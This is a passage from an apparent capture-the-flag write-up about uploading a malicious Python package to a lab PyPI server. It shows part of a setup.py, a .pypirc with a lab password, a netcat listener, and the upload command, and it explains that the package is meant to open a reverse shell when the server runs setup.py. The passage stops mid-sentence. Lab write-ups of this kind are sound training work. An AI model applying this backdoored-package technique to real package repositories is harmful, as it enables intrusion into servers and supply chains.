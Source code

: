 ```python
    author="Example Author",
    author_email="author@example.com",
    description="A small example package",
    long_description_content_type="text/markdown",
    url="https://github.com/pypa/sampleproject",
    classifiers=[
        "Programming Language :: Python :: 3",
        "License :: OSI Approved :: MIT License",
        "Operating System :: OS Independent",
    ],
    python_requires=">=3.6",
)
```

The idea here is that when the pypi server **executes** the **setup.py**, we want it to initiate a **reverse shell**.

We configure our host to be able to send the package to the victim repository:

```bash
rm ~/.pypirc
vi ~/.pypirc
```

The content of the file .pypirc will be:

```python
[distutils]
index-servers = remote

[remote]
repository = http://pypi.sneakycorp.htb:8080
username = pypi
password = soufianeelhaoui
```

Now we can send it to the target machine.

We set a listener on port 443:

```
nc -nlvp 443
```

We send the package to the pypi server:

```bash
python3 setup.py sdist upload -r remote
```

Remember that we set a listener on port 443 and we should get a reverse shell as soon as the server executes the file **setup.py**:

```
nc -nlvp 443
```

After we receive a reverse shell, see the new user:
